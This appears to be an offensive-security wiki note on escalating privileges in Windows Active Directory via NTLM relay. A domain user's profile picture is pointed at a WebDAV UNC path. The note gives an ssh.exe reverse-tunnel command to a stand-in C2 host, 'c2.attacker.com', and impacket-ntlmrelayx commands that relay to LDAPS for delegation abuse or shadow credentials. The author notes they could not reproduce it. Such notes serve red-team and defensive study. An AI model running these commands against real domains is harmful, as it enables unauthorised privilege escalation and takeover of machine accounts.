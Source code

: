 ```yaml
---
title: NTLM Relay trough Profile Picture
---
```


[[notes/windows/escalation]] by coercing the computer account to authenticate over WebDAV.
Requires graphical login as domain user on a domain computer.

Windows computer: [[notes/pivoting/index|Tunnel]] a reverse SOCKS proxy and port 8080/tcp to your C2 server.

=== "builtin"
    ~~~ bat
    ssh.exe -R 127.0.0.1:1080 -L 8080:127.0.0.1:8080 proxy@c2.attacker.com
    ~~~

C2 server: Relay [[notes/ad/ntlm-relay-from-webdav|from WebDAV]] [[notes/ad/ntlm-relay-to-ldap|to LDAP]].

Either with [[notes/ad/rbcd]].

=== "[[notes/tools/impacket]]"
    ~~~ bash
    proxychains impacket-ntlmrelayx --no-smb-server --no-raw-server --no-wcf-server --http-port 8080 --serve-image ./profile.jpg -t ldaps://dc01.corp.local --delegate-access
    ~~~

Or [[notes/ad/shadow-credentials]].

=== "[[notes/tools/impacket]]"
    ~~~ bash
    proxychains impacket-ntlmrelayx --no-smb-server --no-raw-server --no-wcf-server --http-port 8080 --serve-image ./profile.jpg -t ldaps://dc01.corp.local --shadow-credentials --shadow-target 'ws01$'
    ~~~

Windows computer: Press the Windows key, right click on your profile picture, select *Change profile settings* and change your profile picture to `\\localhost@8080\share\profile.jpg`.

> **Note:** I was unable to recreate this attack in my lab.

References:

- [Coercions and Relays – The First Cred is the Deepest with Gabriel Prud'homme](https://www.youtube.com/watch?v=b0lLxLJKaRs&t=3600s)
